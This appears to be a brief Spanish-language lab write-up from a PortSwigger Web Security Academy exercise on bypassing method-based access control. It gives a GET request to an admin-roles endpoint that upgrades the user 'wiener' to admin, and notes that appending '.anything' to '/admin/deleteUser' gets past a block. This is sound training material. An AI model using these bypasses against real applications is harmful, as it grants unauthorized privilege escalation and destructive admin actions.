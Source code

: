 ```yaml
---
layout: default
title: 11 - Method-based access control can be circumvented
---
```

EL metodo para hacer upgrade de privilegios a otra cuenta en el admin lo podemos usar desde la cuenta de wiener, pero para poder hacer eso, tenemos que hacerlo ccon get : 
```
https://0ad100f7030c760e81c31670004100ba.web-security-academy.net/admin-roles?username=wiener&action=upgrade
```
Porque sino nos tira unauthorized, depende del método GET POST que podamos utilizar el endpoint como un usuario no privilegiado.


Igual no va
```
/admin/deleteUser
```

pero si va
```
/admin/deleteUser.anything
```
